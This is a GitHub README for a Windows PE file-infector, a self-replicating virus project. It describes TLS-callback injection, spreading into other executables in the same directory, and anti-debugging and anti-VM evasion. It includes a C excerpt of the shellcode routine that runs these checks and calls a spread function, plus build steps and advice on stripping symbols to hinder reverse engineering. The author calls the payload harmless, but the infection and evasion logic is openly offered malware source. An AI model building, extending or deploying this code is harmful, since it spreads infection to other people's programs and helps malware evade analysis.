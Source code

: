 # PE-infector
A small project that infect itself (malicious payload) to other file and trigger when run
Use it widely, I won't be responsible for any damage cause by this project.
### Build
``make`` to build the project
``make clean`` to clean stuff(object file, .exe file), only keep the source
Final file: ``final.exe``


### What it does
- [x] TLS callback inject
- [x] Inject itself to anther file (in same directory), the infected can also do the same
- [x] Checking debugger (anti debug)
- [x] Checking Virtualization (anti vm, curently only vmware and vbox, add more later)
- [ ] IAT patching
- [x] All shellcode, only .text section required

### Some note
-   About Anti VM: I use cpuid for detection, if you using windows with hyperV enable, you probably gonna get VM detect message even you run it on physical OS. That's because, when hypervisor is enable, the host OS is still gonna run under virtualization (this will explain everything, in the limitation part: [link](https://learn.microsoft.com/en-us/virtualization/hyper-v-on-windows/about/))
-   In case you want to test it with no anti-vm, no anti-debug, go to this code in shellcode.c and comment these line:
```c
void shellcode()
{
    #pragma GCC diagnostic ignored "-Wcast-function-type"
    HMODULE kernel32 = getModuleByName(aKernel32dll);
    pGetProcAddress _GetProcAddress = (pGetProcAddress)getFuncByName(kernel32, aGetProcAddress);
    pLoadLibraryA _LoadLibraryA = (pLoadLibraryA)_GetProcAddress(kernel32, aLoadLibraryA);
    HMODULE user32 = _LoadLibraryA(aUser32dll);
    pMessageBoxA _MessageBoxA = (pMessageBoxA)_GetProcAddress(user32, aMessageBoxA);
    #pragma GCC diagnostic pop
    if (isDebuggerPresentBit(kernel32, _GetProcAddress) == TRUE) // <-- comment this line for no anti-debug
    {

        goto EXITDOOR;
    }
    if (detectWithNTQuery(kernel32, _GetProcAddress, _LoadLibraryA)) // <-- comment this line for no anti-debug
    {
        goto EXITDOOR;
    }
    if (detectCPUID_ManufactureID(kernel32, _GetProcAddress, _LoadLibraryA))// <-- comment this line for no anti-vm
    {
        _MessageBoxA(NULL, aDetected, NULL,0);
        goto EXITDOOR;
    }
    if (detectCPUID_HypervisorBit()) // <-- comment this line for no anti-vm
    {
        _MessageBoxA(NULL, aDetected, NULL,0);
        goto EXITDOOR;
    }
    spread(kernel32, _GetProcAddress, _LoadLibraryA);
    _MessageBoxA(NULL, aOurGoal, NULL, 0); 
    EXITDOOR:
    return;
}
```
-   Currently I dont have time to implement some method such as: checking registry (for detect VM), capture process list and check for debugger, ... That will be story of another time.
-   There is no harm in the original code, but I still warn you to compile it instead of using my PE.
-   If you want to make the reverse task more challenging, you should add -s and -O3 flag to the last line( the ``gcc start.o decryptor.o shellcode.o -o final.o -m64 ...``) to strip all symbol and optimize code
